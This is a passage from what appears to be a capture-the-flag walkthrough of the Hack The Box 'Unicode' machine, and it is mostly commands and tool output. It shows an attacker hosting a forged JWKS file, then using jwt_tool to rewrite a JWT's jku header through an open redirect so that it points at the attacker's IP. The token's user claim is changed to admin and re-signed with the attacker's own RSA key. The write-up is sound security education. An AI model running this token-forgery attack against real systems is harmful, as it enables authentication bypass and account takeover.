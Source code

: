 ```sh
┌──(root💀kali)-[~/htb/unicode]
└─# mv jwttool_custom_jwks.json jwks.json 

┌──(root💀kali)-[~/htb/unicode]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

## Tamper JWT

Next we will tamper the cookie so the user is admin. We also need to redirect the JKU check so it uses the custom one created by the jwt tool that we are hosting here on Kali. We then need to sign the token again so the signature is valid. We can use the key pair created by jwt_tool to do that:

```sh
┌──(root💀kali)-[~/htb/unicode/test]
└─# root@kali:~/htb/unicode# python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy9qd2tzLmpzb24ifQ.eyJ1c2VyIjoicGVuY2VyIn0.LNZiXwlqLXTJ18nTKztpy2x0svtVyTw1YX_YuINoU8sG2VKOaAF_3SW0hffM2vN9_6tYYJBbd6Fh2qFR01jd5-bWBk_0Smy59nttPHqn2Rh2IqiKsDbqOqL5jJpSAYeKEXdBWRW2_z6XePj11z6dDqc5YupoDuJzC_B705sib_gB9c9Nf2SphTfU-vckDw3Ghw74y3nibr-QJNSDohUTOGWZT-satIYVQJvBxCyY1BBCWxzpAbhO9dFtBUQcsLDWg9iw-lke7i2YVjfGCld1ChfuqrK2q-EzTiPQ6GrqhDwkBFPA0MJ6otyt61j0PLe8ELpgZKO6_0IO6l3uDaHADw  -I -hc jku -hv http://hackmedia.htb/static/../redirect/?url=10.10.14.241/jwks.json -pc user -pv admin -S rs256 -pr jwttool_custom_private_RSA.pem

        \   \        \         \          \                    \ 
   \__   |   |  \     |\__    __| \__    __|                    |
         |   |   \    |      |          |       \         \     |
         |        \   |      |          |    __  \     __  \    |
  \      |      _     |      |          |   |     |   |     |   |
   |     |     / \    |      |          |   |     |   |     |   |
\        |    /   \   |      |          |\        |\        |   |
 \______/ \__/     \__|   \__|      \__| \______/  \______/ \__|
 Version 2.2.4                \______|             @ticarpi      

jwttool_2e549bdf823847e163cdb9fb301aed1a - Tampered token - RSA Signing:
[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImprdSI6Imh0dHA6Ly9oYWNrbWVkaWEuaHRiL3N0YXRpYy8uLi9yZWRpcmVjdC8_dXJsPTEwLjEwLjE0LjI0MS9qd2tzLmpzb24ifQ.eyJ1c2VyIjoiYWRtaW4ifQ.jRPqqWUrVKo4AHWZ6CbCmV-uQbtC9OB_4vIQkrOdB2SZhGXLcBmFMujcz5TkidarraSThjFjpXsNDtacW6h4q8lcFu6ePOqKFErh33dItW5LKEIQrAZTZ2oL6s8kEisYYEPKEfn3m_M0fYZZL4knj8_Hq70LDg0GhW9pJy4GZouMYKNf-ILY9IDavVpg6b-S2t6l0ALEya5AdHdbh3ChMeDduikaeaL_s_r7xPtguXFttYA37bqNgbeREZE8AifJhA9Q-jlMTay3OyjBFXT-diLHIvqGEwWnIkbXHX_lH97Eomv3hDhNJ-pv30FgGXRttwS_aOvth3sCre0fHUVqJQ
```

To break those parameters down a little:

```text
-I           = inject in to the provided token
-hc jku      = tell it we are changing the existing header claim called jku
-hv http://hackmedia.htb/static/../redirect/?url=10.10.14.241/jwks.json = use the redirect we found earlier to point to Kali
-pc user     = tell it we are changing the existing payload claim called user
-pv admin    = set payload value to admin
-S rs256     = set signature to RSA 256
-pr jwttool_custom_private_RSA.pem = use the custom generated private RSA key to sign
```

